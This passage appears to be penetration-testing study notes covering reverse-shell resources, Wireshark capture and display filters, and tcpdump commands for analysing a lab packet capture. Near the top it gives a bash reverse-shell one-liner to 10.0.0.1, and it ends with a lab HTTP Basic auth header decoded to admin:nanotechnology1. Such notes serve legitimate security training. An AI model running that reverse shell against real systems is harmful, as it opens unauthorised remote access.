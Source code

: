 Resources:
* Upgrade to full interactive shell: https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/
* Reverse Shell Cheatsheet: http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
  * `bash -i >& /dev/tcp/10.0.0.1/8080 0>&1`

Note: Netcat (`nc`) OpenBSD does not support `-e`. Netcat versions: GNU, OpenBSD, Traditional, Netcat6

## Wireshark
Network -> Capture Filters -> Capture Engine -> Display Filters

Capture filters are very useful as they can selectively capture packets that match a certain criteria. The capture filter syntax is different from the usual display filter syntax. An example would be `host 8.8.8.8 and tcp port 80`, to capture packets that involve 8.8.8.8 and tcp port 80 only. Display filters on the other hand does not affect the packet capturing process, it just applies a filter to already captured packets, example `tcp.port == 80`. If you notice, wireshark capture filters are the same as tcpdump capture filters.

Capture filters can be specified in Capture > Options > Capture filter for selected interface, or in Capture > Capture Filters

Follow TCP stream is very useful as in can display the client and server communication in formatted plaintext. It works on web traffic, nc connections (shells, mail, unencrypted connections), etc.

Typical web connection traffic:

1. ARP broadcast looking for the default gateway
2. ARP unicast reply providing the MAC address of the gateway
3. DNS A (IPv4) forward lookup query
4. DNS AAAA (IPv6) forward lookup query
5. DNS A response received
6. DNS AAAA response received
7. 3-way handshake on port 80
8. Initial protocol negotiation in HTTP GET request

## `tcpdump`
```sh
tcpdump -r password_cracking_filtered.pcap | awk '{print $3}' | cut -d. -f-4 | sort | uniq -c | sort -urn  # Show most common IPs
tcpdump -n src host 172.16.40.10 -r password_cracking_filtered.pcap # Filter by src host
tcpdump -n dst host 172.16.40.10 -r password_cracking_filtered.pcap # Filter by dst host
tcpdump -n port 81 -r password_cracking_filtered.pcap # Filter by port
tcpdump -nXr password_cracking_filtered.pcap # Hex
```

Near the bottom of password_cracking_filtered.pcap, after many 401 Authorization Required bad attempts, a 301 occurs after using the following credentials:
```
GET //admin HTTP/1.1
Host: admin.conglomerate.com:81
User-Agent: Teh Forest Lobster
Authorization: Basic YWRtaW46bmFub3RlY2hub2xvZ3kx
  Credentials: admin:nanotechnology1
```
